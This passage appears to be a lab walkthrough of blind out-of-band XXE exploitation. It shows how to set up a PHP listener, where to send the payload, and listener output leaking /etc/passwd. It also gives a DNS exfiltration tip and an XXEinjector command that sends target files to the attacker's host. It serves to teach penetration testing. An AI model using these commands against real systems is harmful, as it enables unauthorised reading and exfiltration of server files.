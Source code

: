 Run the listener:

`vi index.php   # Paste PHP code`
`php -S 0.0.0.0:8000`

**3. Blind XXE Payload**

<img width="633" height="218" alt="image" src="https://github.com/user-attachments/assets/b75b9030-7aea-4220-b5db-58b046491b5c" />

Send as POST to:

`/blind/submitDetails.php`

**4. Example Output on Listener**

<pre>10.10.14.16:46256 /xxe.dtd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP...</pre>

Tip: Instead of sending data in the URL parameter, you can use DNS exfiltration
(e.g., <BASE64>.our-domain.com) and capture traffic with tcpdump.

**5. Automated OOB XXE (XXEinjector)**

Clone the tool:

`git clone https://github.com/enjoiz/XXEinjector.git`

Save the intercepted HTTP request from Burp to /tmp/xxe.req, replacing the XML body with:

<img width="403" height="42" alt="image" src="https://github.com/user-attachments/assets/b4fb5e78-0676-4d7a-877c-3720424f8e11" />

XXEINJECT

Run:

`ruby XXEinjector.rb --host=<YOUR_IP> --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter`

Decoded files will be stored in:

`Logs/<target_ip>/<file>.log`
